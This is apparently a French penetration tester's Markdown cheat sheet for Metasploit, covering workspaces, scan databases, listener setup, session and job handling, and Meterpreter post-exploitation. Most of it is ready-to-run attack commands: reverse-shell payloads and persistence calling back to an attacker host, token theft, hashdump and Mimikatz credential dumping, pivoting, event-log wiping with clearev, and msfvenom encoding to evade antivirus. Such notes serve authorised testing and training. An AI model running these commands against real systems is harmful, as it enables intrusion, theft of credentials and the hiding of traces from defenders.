

Ce document détaille la gestion des sessions, des jobs et les techniques de post-exploitation au sein du framework **Metasploit**.



## Gestion des workspaces

Les workspaces permettent d'isoler les données d'un engagement (hôtes, services, vulnérabilités) par projet.

```bash
workspace -a <nom_projet>  # Créer un nouveau workspace
workspace <nom_projet>     # Basculer vers un workspace
workspace -d <nom_projet>  # Supprimer un workspace
workspace -l               # Lister les workspaces
```

## Gestion des bases de données

L'utilisation d'une base de données PostgreSQL est indispensable pour stocker les résultats de scan et faciliter la corrélation avec les exploits.

```bash
db_status                  # Vérifie la connexion à la base de données
db_nmap -sV -p- <target>   # Exécute Nmap et importe directement les résultats
hosts                      # Liste les hôtes découverts
services                   # Liste les services identifiés
vulns                      # Liste les vulnérabilités enregistrées
```

## Configuration des listeners (multi/handler)

Le module `multi/handler` est utilisé pour réceptionner les connexions entrantes des payloads générés.

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_ATTAQUANT>
set LPORT <PORT>
set ExitOnSession false    # Maintient le listener actif après une session
exploit -j                 # Lance le listener en arrière-plan
```

## Gestion des sessions et des jobs

La gestion efficace des ressources est cruciale pour maintenir la stabilité lors d'un test d'intrusion.

### Sessions

| Commande | Description |
| :--- | :--- |
| `sessions` | Liste toutes les sessions actives |
| `sessions -i <ID>` | Interagir avec une session spécifique |
| `sessions -k <ID>` | Tue une session spécifique |
| `sessions -K` | Tue toutes les sessions |
| `[CTRL] + [Z]` ou `background` | Mettre une session en arrière-plan |

### Jobs

| Commande | Description |
| :--- | :--- |
| `jobs -l` | Liste tous les jobs actifs |
| `jobs -k <ID>` | Termine un job spécifique |
| `jobs -K` | Termine tous les jobs |
| `jobs -i <ID>` | Affiche des détails sur un job |
| `exploit -j` | Lance un exploit en job (arrière-plan) |

> [!warning]
> Nettoyer les jobs inutiles pour éviter les conflits de ports sur la machine attaquante.

## Post-Exploitation avec Meterpreter

Une fois la session établie, les commandes suivantes permettent d'interagir avec le système cible.

### Commandes de base

```bash
getuid                   # Affiche l'utilisateur courant
sysinfo                  # Infos système
ps                       # Liste des processus
migrate <pid>            # Migre vers un processus
background               # Met en arrière-plan la session
sessions                 # Liste les sessions
sessions -i <id>         # Interagit avec une session
```

> [!danger]
> Migrer systématiquement vers un processus stable (**explorer.exe**) pour éviter le crash de la session.

### Token Manipulation

```bash
steal_token <pid>        # Vole le token d'un process
rev2self                 # Retourne à l'identité initiale
```

### Dump de secrets et privilèges

L'utilisation de **Mimikatz** via l'extension **kiwi** permet l'extraction de **TGT** ou de hashs **NTLMv2**. Voir les notes sur **Mimikatz**.

```bash
hashdump                 # Dump du SAM local
load kiwi                # Charge l'extension Kiwi (Mimikatz)
creds_all                # Récupère les identifiants
lsa_dump_sam             # Dump du SAM avec infos NTLM
lsa_dump_secrets         # Récupération des secrets LSA
```

### Privilege Escalation

L'utilisation du **local_exploit_suggester** permet d'identifier les vecteurs de **Privilege Escalation** sur **Windows**. Voir les notes sur **Privilege Escalation**.

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

### FileSystem et Shell

```bash
shell                    # Ouvre un shell interactif
cd <path>                # Change de répertoire
ls                       # Liste les fichiers
cat <fichier>            # Affiche le contenu
download <fichier>       # Télécharge un fichier
upload <local> <remote>  # Upload de fichier
```

## Persistence et Pivoting

### Persistence

```bash
run persistence -X -i 30 -p 4444 -r <LHOST>
run post/windows/gather/hashdump
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_applications
```

### Pivoting

Le **Pivoting** permet d'accéder à des segments réseaux internes via la machine compromise. Voir les notes sur **Pivoting**.

```bash
portfwd add -l <local_port> -p <remote_port> -r <RHOST>
```

## Nettoyage et Evasion

> [!warning]
> Attention à l'utilisation de `clearev` qui peut être détecté par les solutions EDR/SIEM.

```bash
clearev                  # Efface les logs d'événements
```

### Techniques d'évasion avancées

L'évasion repose sur la modification du transport et l'encodage des payloads pour contourner les signatures statiques et comportementales.

```bash
# Changement de transport pour masquer le trafic
transport add -t reverse_https -l <LHOST> -p <LPORT>
transport set <ID>

# Encodage lors de la génération
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> \
-a x64 --platform windows -e x64/xor_dynamic -i 5 -f exe -o payload.exe
```

### Extensions

```bash
load stdapi              # API de base
load priv                # Privesc + manipulation token
load espia               # Capture écran / webcam
load kiwi                # Dump de creds (Mimikatz)
```

### Evasion AV

Pour contourner les protections, il est recommandé de privilégier des payloads stageless. Voir les notes sur **Payloads**.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -e x86/shikata_ga_nai -i 10 -o payload.exe
```

> [!tip]
> Privilégier les payloads stageless pour une meilleure stabilité en environnement réel.